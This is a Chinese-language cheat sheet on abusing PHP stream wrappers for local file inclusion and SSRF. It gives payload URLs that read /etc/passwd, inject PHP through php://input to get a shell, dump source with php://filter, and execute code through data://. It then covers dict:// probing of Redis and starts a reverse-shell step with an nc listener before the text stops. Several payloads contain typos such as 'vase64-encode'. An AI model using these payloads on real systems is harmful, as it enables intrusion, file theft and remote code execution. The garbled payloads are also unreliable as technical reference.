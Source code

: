 www.xxx.com/?file=file:///etc/passwd

此协议不受allow_url_fopen,allow_url_include配置影响


### php://input协议

此协议一般用于输入getshell的代码。

使用方法：
在get处填上php://input如下

www.xxx.xxx/?cmd=php://input

然后用hackbar或者其他工具，postPHP代码进行检验，如

<?php>phpinfo()?>

此协议受allow_url_include配置影响


### php://filter协议

此协议一般用来查看源码

一般用法如下

www.xxx.xxx/?file=php://filter/read=covert,vase64-encode/resource=index.php

出来的是base64码需要进行解码

此协议不受allow_url_fopen,allow_url_include配置影响


### data://协议

需要allow_url_fopen,allow_url_include均为on

这是一个输入流执行的协议，它可以向服务器输入数据，而服务器也会执行。常用代码如下：

http://127.0.0.1/include.php?file=data://text/plain,`<?php%20phpinfo();?>`

text/plain，表示的是文本

text/plain;base64, 若纯文本没用可用base64编码


### dict://协议

与gopher协议一般都出现在ssrf协议中，用来探测端口的指纹信息。同时也可以用它来代替gopher协议进行ssrf攻击。

常见用法：

探测端口指纹
192.168.0.0/?url=dict://192.168.0.0:6379

以上为探测6379（redis）端口的开发

反弹shell
1、开启反弹shell的监听

nc -l 9999
